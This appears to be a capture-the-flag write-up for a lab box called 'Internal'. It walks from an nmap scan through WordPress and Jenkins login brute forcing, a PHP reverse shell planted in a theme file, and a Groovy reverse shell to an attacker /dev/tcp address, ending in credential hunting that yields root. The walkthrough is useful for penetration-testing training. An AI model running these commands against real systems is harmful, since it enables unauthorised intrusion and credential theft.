<h1>Internal</h1>

<h3>Reconnaissance</h3>

As always, we begin with an Nmap scan:

```bash
nmap -sC -sV <target-ip>
```

**Scan Results**

```text
22/tcp  open  ssh     OpenSSH
80/tcp  open  http    Apache httpd
```

### Identified Services

<em><strong>
SSH<br>
HTTP
</strong></em>

The scan reveals only two open ports: SSH (22) and HTTP (80).

Visiting the web server displays the default Apache page, which does not provide any useful information.

Time to begin enumeration.

<h3>Initial Enumeration</h3>

First, add the target hostname to the hosts file:

```bash
echo "<target-ip> internal.thm" | sudo tee -a /etc/hosts
```

Next, perform directory enumeration:

```bash
feroxbuster -u http://internal.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```



### Interesting Discovery

```text
http://internal.thm/blog
```



The enumeration results suggest that the target is hosting a WordPress installation.

Browsing to the discovered directory confirms the presence of a standard WordPress site.

<h3>WordPress Enumeration</h3>

To gather more information, we use WPScan:

```bash
wpscan --url http://internal.thm/blog --enumerate --api-token <api-token>
```

After the scan completes, we discover a valid WordPress user:

```text
admin
```



Now that we have a username, we can attempt to recover the password.

<h3>Brute Forcing WordPress Credentials</h3>

WPScan supports password attacks through XML-RPC.

```bash
wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/blog
```

After a short period, WPScan successfully discovers the password for the admin account.



Using the recovered credentials, we log into the WordPress administration panel.

<h3>Gaining Initial Access</h3>

Inside the WordPress dashboard, navigate to:

```text
Appearance → Theme Editor
```

A common method for obtaining command execution is modifying a theme file and replacing it with a PHP reverse shell.

The file selected in this case is:

```text
404.php
```

Before triggering the payload, start a listener:

```bash
nc -lvnp 4444
```

Replace the contents of `404.php` with a PHP reverse shell and save the changes.



The modified file can then be accessed at:

```text
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

As soon as the page loads, a reverse shell is received.



<h3>Post Exploitation Enumeration</h3>

With an initial shell established, begin by identifying valid users on the system:

```bash
cat /etc/passwd
```

Reviewing the output reveals an interesting user:

```text
aubreanna
```

User pivoting is often easier than direct privilege escalation, so the next step is to search for credentials.

Search for readable text files:

```bash
find / -name "*.txt" -readable -type f 2>/dev/null
```

### Interesting Discovery

```text
/opt/wp-save.txt
```

Inside the file we discover credentials belonging to the user `aubreanna`.



Additional locations worth checking include:

```bash
grep 'DB_USER|DB_PASSWORD' wp-config.php
```

and

```bash
find / ! -path "/proc/" -iname "config" -type f 2>/dev/null
```

WordPress configuration files frequently contain reusable credentials.

<h3>Pivoting to Aubreanna</h3>

Using the credentials recovered from `wp-save.txt`, connect via SSH:

```bash
ssh aubreanna@internal.thm
```



After logging in, we discover a note mentioning an internal Jenkins instance:

```text
Internal Jenkins service is running on 172.17.0.2:8080
```

Because the service is only accessible internally, port forwarding is required.

<h3>Port Forwarding Jenkins</h3>

Create an SSH tunnel:

```bash
ssh -L 6767:localhost:8080 aubreanna@internal.thm
```

The Jenkins portal can now be accessed locally:

```text
http://localhost:6767
```


Opening the page presents a Jenkins login screen.

<h3>Jenkins Enumeration</h3>

Initial attempts using common credentials such as:

```text
admin:admin
admin:jenkins
```

are unsuccessful.

To automate password guessing, intercept a login request and construct a Hydra command:

```bash
hydra -s 6767 127.0.0.1 -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -V -l admin -P /usr/share/wordlists/rockyou.txt
```

Eventually Hydra discovers the correct password.



Using the recovered credentials, we successfully authenticate to Jenkins.

<h3>Jenkins Remote Code Execution</h3>

Inside Jenkins, navigate to:

```text
Manage Jenkins → Script Console
```

The Script Console allows arbitrary Groovy code execution.

Start a listener:

```bash
nc -lvnp 8443
```

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<your-ip>/8443;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```


Execute a Groovy reverse shell through the console.

Once the script runs, a reverse shell is received.



We now have access as the:

```text
jenkins
```

user.

<h3>Privilege Escalation</h3>

With access to the Jenkins environment, begin searching for credentials and sensitive files.

One of the first locations examined is:

```text
/opt
```

During enumeration, an interesting file is discovered:

```text
notes.txt
```

Inside the file are credentials belonging to the root user.

Using these credentials, connect over SSH:

```bash
ssh root@internal.thm
```

The login succeeds.

<h3>Root Access</h3>

With root privileges obtained, retrieve the final flag:

```bash
cat /root/root.txt
```


### Flag Captured
